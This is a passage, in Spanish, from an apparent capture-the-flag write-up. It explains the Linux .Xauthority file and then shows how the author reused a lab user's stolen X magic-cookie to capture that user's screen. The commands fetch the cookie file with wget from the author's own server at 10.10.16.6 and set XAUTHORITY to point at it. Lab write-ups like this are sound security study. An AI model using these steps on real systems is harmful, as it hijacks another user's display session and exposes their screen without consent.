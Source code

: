 > El archivo ".Xauthority" es un archivo oculto en el sistema de archivos de Linux que contiene información de autenticación para el servidor de pantalla X. El servidor de pantalla X es el software que controla el hardware de visualización en un sistema Linux y proporciona una interfaz gráfica de usuario para los usuarios. 
> 
> Cuando un usuario inicia sesión en un sistema Linux y ejecuta un programa gráfico, el programa se comunica con el servidor de pantalla X para mostrar su interfaz gráfica en la pantalla. Para garantizar que el programa solo pueda interactuar con su propia ventana y no con otras ventanas en el sistema, el servidor de pantalla X requiere que el usuario se autentique mediante un mecanismo de autenticación. 
> 
> El archivo ".Xauthority" contiene información de autenticación para el servidor de pantalla X, incluido un identificador de cookie de autenticación que se utiliza para verificar que el usuario tiene permiso para acceder al servidor. Este archivo se crea automáticamente cuando se inicia sesión en un sistema Linux y se elimina automáticamente cuando se cierra la sesión del usuario. Si se elimina este archivo por error, es posible que el usuario no pueda iniciar sesión en el servidor de pantalla X o que se produzcan otros problemas de autenticación.


Intenté hacer una caputra de pantalla de lo que estaba haciendo el usuario ross pero no podía debido a que necesitaba su Magic-Cookie (la cual ya tenía)

```bash
alex@squashed:/home/alex$ xwd -display :0 -out captura.xwd
No protocol specified
xwd:  unable to open display ':0'
```

Me descargué el archivo en la máquina victima. Me monte un servidor con python3 en la montura.

```bash
alex@squashed:/tmp$ wget 10.10.16.6:8000/.Xauthority
--2023-03-03 13:02:10--  http://10.10.16.6:8000/.Xauthority
Connecting to 10.10.16.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
```

si añadimos la siguiente variable de entorno apuntando a nuesto archivo, deberiamos poder hacer una captura de pantalla.

```bash
XAUTHORITY=/home/ross/.Xauthority
```

Lo añadimos al env.

```bash
alex@squashed:/tmp$ export XAUTHORITY=/tmp/.Xauthority
alex@squashed:/tmp$ export
declare -x APACHE_LOCK_DIR="/var/lock/apache2"
declare -x APACHE_LOG_DIR="/var/log/apache2"
declare -x APACHE_PID_FILE="/var/run/apache2/apache2.pid"
declare -x APACHE_RUN_DIR="/var/run/apache2"
declare -x APACHE_RUN_GROUP="www-data"
declare -x APACHE_RUN_USER="www-data"
declare -x INVOCATION_ID="b735338f756d4e0c857266067bdebc3b"
declare -x JOURNAL_STREAM="9:27430"
declare -x LANG="C"
declare -x OLDPWD="/home/alex"
declare -x PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
declare -x PWD="/tmp"
declare -x SHELL="bash"
declare -x SHLVL="3"
declare -x TERM="xterm"
declare -x XAUTHORITY="/tmp/.Xauthority"
```

